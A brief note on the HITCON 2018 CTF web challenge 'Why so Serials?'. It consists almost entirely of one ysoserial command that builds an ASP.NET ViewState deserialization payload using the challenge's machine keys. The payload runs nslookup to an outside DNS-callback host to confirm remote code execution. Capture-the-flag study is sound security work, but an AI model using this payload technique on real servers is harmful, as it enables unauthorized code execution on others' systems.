 # HITCON 2018: Why so Serials? (Derserialize viewstate)

---

Source: [here](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2018/why-so-serials/src)

(Take note and not writeup)

---

```cmd
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "nslookup bbb.33f7a0b0d12066cbbded.d.zhack.ca" --validationalg="MD5" --decryptionkey="DES" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87" --generator=CA0B0334
```



